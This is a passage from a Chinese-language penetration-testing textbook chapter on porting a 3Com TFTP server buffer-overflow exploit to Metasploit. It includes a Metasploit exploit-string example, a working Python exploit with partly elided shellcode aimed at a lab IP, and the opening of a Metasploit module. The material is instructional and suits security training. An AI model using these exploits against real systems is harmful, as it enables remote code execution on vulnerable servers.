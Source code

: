### 相似的漏洞字符串模块

示例模块使用了 SEH 漏洞，而我们的 3Com TFTP 漏洞则使用了保存的返回指针，因此我们来查看另一个 Metasploit TFTP 示例中的漏洞字符串，以帮助我们创建自己的漏洞。以下是 *exploit/windows/tftp/tftpd32_long_filename.rb* 模块中使用的漏洞字符串。

```
sploit = "\x00\x01"❶ + rand_text_english(120, payload_badchars)❷ + "." + rand_text_english(135, payload_badchars) + [target.ret].pack('V')❸ + payload.encoded❹ + "\x00"
```

回想一下，TFTP 数据包的前两个字节是操作码 ❶。在这里，数据包告诉 TFTP 我们想要读取一个文件。接下来是文件名，*rand_text_english(120, payload_badchars)*。正如模块名称所示，这个漏洞利用了一个长文件名，而不是将过多的数据写入传输模式字段。作者使用 Metasploit 的 `rand_text_english` 函数创建了一个 120 个字符的字符串，避免了通过模块中早先定义的 `BadChar` 变量中的不良字符 ❷。这个漏洞似乎需要一个句点（`.`），然后是一些随机文本，接着返回地址被添加到字符串中。Metasploit 从模块中早先定义的 `ret` 变量中提取返回地址。

`pack` 是一个 Ruby 方法，它根据模板将数组转换为二进制序列。`'V'` 模板 ❸ 指示 Ruby 以小端格式打包我们的返回地址。在返回地址之后，用户选择的负载被编码并附加到漏洞字符串中，负载填满了允许的总空间，这个空间由 `Space` 变量 ❹ 定义。一个空字节表示文件名字段的结束。（有趣的是，攻击字符串甚至不需要完成 TFTP 数据包就能利用程序，因为模式和最终的空字节并不会附加到漏洞字符串中。）

### 移植我们的漏洞利用代码

在本章早些时候，我建议将 3Com TFTP 服务器的长传输模式漏洞作为练习编写一个漏洞利用代码。你编写的漏洞利用代码应该与 示例 19-9 中的代码类似。如果你没有尝试编写这个漏洞利用代码，依然应该能够理解代码的工作原理，因为你已经完成了前面的示例。

示例 19-9. 完成的 3Com TFTP Python 漏洞利用代码

```
  #!/usr/bin/python
  import socket
❶ shellcode = ("\x33\xc9\x83\xe9\xb0\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\
  x1d" + "\x4d\x2f\xe8\x83\xeb\xfc\xe2\xf4\xe1\x27\xc4\xa5\xf5\xb4\xd0\x17" +
  --*snip*--
  "\x4e\xb2\xf9\x17\xcd\x4d\x2f\xe8")
  buffer = shellcode + "A" * 129 + "\xD3\x31\xC1\x77" ❷
  packet = "\x00\x02" + "Georgia" + "\x00" + buffer + "\x00"
  s=socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
  s.sendto(packet,('192.168.20.10',69))
  response = s.recvfrom(2048)
  print response
```

你的返回地址可能指向另一个 `JMP ESI` 指令 ❷，而且你可能使用了不同的负载 ❶。

现在，让我们将 Python 漏洞利用代码移植到 Metasploit，将 FutureSoft TFTP 示例模块中的值更改为适应我们的需求。我们只需对之前讨论的现有漏洞模块进行少量更改，如 示例 19-10 和 示例 19-11 中所示。

示例 19-10. 编辑后的模块，第一部分

```
##
# This module requires Metasploit: http//metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
  Rank = AverageRanking

  include Msf::Exploit::Remote::Udp ❶

  def initialize(info = {})
    super(update_info(info,
      'Name'           => '3com TFTP Long Mode Buffer Overflow',
      'Description'    => %q{
          This module exploits a buffer overflow in the 3com TFTP version 2.0.1 and below with
          a long TFTP transport mode field in the TFTP packet.
      },
      'Author'         => 'Georgia',
```